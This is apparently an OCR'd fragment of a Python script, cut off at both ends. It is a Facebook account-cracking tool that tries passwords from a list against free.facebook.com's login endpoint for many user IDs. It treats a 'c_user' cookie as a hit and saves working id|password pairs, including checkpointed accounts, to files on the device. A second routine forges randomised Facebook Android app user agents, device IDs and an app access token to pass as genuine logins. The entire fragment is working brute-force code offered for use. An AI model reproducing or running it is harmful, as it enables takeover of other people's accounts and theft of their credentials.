 			complete = session.post('https://free.facebook.com/login/device-based/validate-password/?shbl=0',data=idpass,allow_redirects=False,headers=head)
			IJAZ=session.cookies.get_dict().keys()
			if "c_user" in IJAZ:
				coki=session.cookies.get_dict()
				kuki = (";").join([ "%s=%s" % (key, value) for key, value in session.cookies.get_dict().items() ])
				print('\r\r\033[1;32m [𝐈𝐣𝐚𝐳-OK] %s | %s'%(ids,pas))
				open('/sdcard/𝐈𝐣𝐚𝐳-OK.txt', 'a').write(ids+'|'+pas+'\n')
				oks.append(ids)
				break
			elif 'checkpoint' in IJAZ:
				if 'y' in pcp:
					print('\r\r\x1b[38;5;205m [𝐈𝐣𝐚𝐳-CP] '+ids+' | '+pas+'\033[1;97m')
					open('/sdcard/𝐈𝐣𝐚𝐳-CP.txt', 'a').write(ids+'|'+pas+'\n')
					cps.append(ids)
					break
				else:
					break
			else:
				continue
	except requests.exceptions.ConnectionError:
		time.sleep(20)
	loop+=1
#method1rnd
def IJAZ1(ids,passlist):
        global loop
        global oks
        sys.stdout.write('\r\r\033[1;37m [𝐈𝐣𝐚𝐳-M1] %s|\033[1;37mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()
        try:
                for pas in passlist:
                        accessToken = '350685531728|62f8ce9f74b12f84c123cc23437a4a32'
                        fbav = f'{random.randint(111,999)}.0.0.{random.randint(11,99)}.{random.randint(111,999)}'
                        fbbv = str(random.randint(111111111,999999999))
                        android_version = device['android_version']
                        model = device['model']
                        build = device['build']
                        fblc = device['fblc']
                        fbcr = sim_id
                        fbmf = device['fbmf']
                        fbbd = device['fbbd']
                        fbdv = device['fbdv']
                        fbsv = device['fbsv']
                        fbca = device['fbca']
                        fbdm = device['fbdm']
                        fbfw = '1'
                        fbrv = '0'
                        fban = 'FB4A'
                        fbpn = 'com.facebook.katana'
                        ua = 'Davik/2.1.0 (Linux; U; Android '+android_version+'.0.1; '+model+' Build/'+build+') [FBAN/'+fban+';FBAV/'+fbav+';FBBV/'+fbbv+';FBDM/{density=2.97,width=720,height=1612};FBLC/'+fblc+';FBRV/'+str(random.randint(000000000,999999999))+';FBCR/'+fbcr+';FBMF/'+fbmf+';FBBD/'+fbbd+';FBPN/'+fbpn+';FBDV/'+fbdv+';FBSV/'+fbsv+';FBOP/19;FBCA/'+fbca+';]'
                        random_seed = random.Random()
                        adid = str(''.join(random_seed.choices(string.hexdigits, k=16)))
                        device_id = str(uuid.uuid4())
                        secure = str(uuid.uuid4())
                        family = str(uuid.uuid4())
                        accessToken = '350685531728|62f8ce9f74b12f84c123cc23437a4a32'
                        xd =str(''.join(random_seed.choices(string.digits, k=20)))
                        sim_serials = f'["{xd}"]'
                        li = ['28','29','210']
                        li2 = random.choice(li)
                        j1 = ''.join(random.choice(digits) for _ in range(2))